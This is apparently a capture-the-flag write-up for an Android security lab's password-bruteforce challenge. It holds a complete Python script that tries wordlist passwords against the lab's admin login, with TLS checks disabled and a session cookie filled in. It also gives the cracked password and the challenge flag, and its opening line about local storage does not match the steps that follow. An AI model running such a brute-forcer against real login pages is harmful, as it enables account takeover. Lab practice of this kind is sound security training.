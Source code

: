 The task provided a web view of a webpage within the app, with obvious hints indicating that the solution involves investigating the local storage of the website.

## Step 1: Intercepting the Webpage Link

To access the webpage in a browser, I used HTTP Toolkit to capture the network traffic from the app and locate the webpage link. This led me to the following URL:

**URL: http://hpandro.raviramesh.info/bf.php**

![image](1.png)

## Step 2: Writing the bruteforce script

```
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

url = "https://hpandro.raviramesh.info/web/password-bruteforce.android"
username = "admin"
wordlist_path = "wordlist.txt"

headers = {
    "Host": "hpandro.raviramesh.info",
    "Cookie": "_gid=GA1.2.1420009170.1730369303; _ga_M1DY5F8QNF=GS1.1.1730465114.8.0.1730465114.60.0.0; _ga=GA1.2.231762434.1730369303; PHPSESSID=5s8evrmc4nhc6uvucu4bqdicvo",
    "Pragma": "no-cache",
    "Cache-Control": "no-cache",
    "Sec-Ch-Ua": '"Chromium";v="124", "Android WebView";v="124", "Not-A.Brand";v="99"',
    "Sec-Ch-Ua-Mobile": "?1",
    "Sec-Ch-Ua-Platform": "Android",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "https://hpandro.raviramesh.info",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "hpandro.android.security",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "X-Requested-With": "hpandro.android.security",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-User": "?1",
    "Sec-Fetch-Dest": "document",
    "Referer": "https://hpandro.raviramesh.info/web/password-bruteforce.android",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    "Priority": "u=0, i",
    "Connection": "keep-alive",
}

def attempt_password(password):
    data = {
        "name": username,
        "password": password.strip(),
    }
    
    try:
        response = requests.post(url, headers=headers, data=data, verify=False)
        if response.status_code == 200:
            print(f"Attempt with password '{password.strip()}' returned status code {response.status_code}.")
            if "Try" not in response.text:
                print("Request Sent: ", data)
                print("Response Recieved: \n", response.text)
                return True
    except requests.exceptions.RequestException as e:
        print(f"Error sending request with password '{password}': {e}")
    return False

def bruteforce_passwords():
    with open(wordlist_path, "r") as file:
        for password in file:
            if attempt_password(password):
                break

if __name__ == "__main__":
    bruteforce_passwords()
```

On running this script for a while, we get the username as **"admin"** and password as **"hacker"**.

![image](2.png)

## Flag
The flag is given when you give the right username and password:

**Flag - hpandro{Brute.zf7zoSEUxvXQVfkCOolSx1gtRCAApNwE}**

